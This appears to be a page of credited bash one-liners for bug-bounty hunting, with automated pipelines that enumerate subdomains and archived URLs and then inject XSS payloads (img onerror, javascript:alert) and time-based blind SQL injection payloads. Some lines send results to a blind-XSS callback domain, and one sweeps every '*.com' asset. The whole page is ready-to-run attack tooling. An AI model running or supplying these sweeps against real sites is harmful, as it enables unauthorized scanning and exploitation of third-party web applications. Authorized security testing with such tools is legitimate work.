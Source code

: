 ```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```

## XSS from javascript hidden params
> @0xJin
```bash
assetfinder *.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```

## XSS freq
> @ofjaaah
```bash
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

## Find xss
> @skothastad
```bash
cat targets | waybackurls | anew | grep "=" | gf xss | nilo | Gxss -p test | dalfox pipe --skip-bav --only-poc r --silence --skip-mining-dom --ignore-return 302,404,403
```

> @mamunwhh
```bash
cat hosts.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```

> @SaraBadran18
```bash
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro | dalfox pipe -b your.xss.ht -o xss.txt
```
> jeeves tools
```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```
## Find XSS + knoxss
> @ofjaaah
```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh 
```
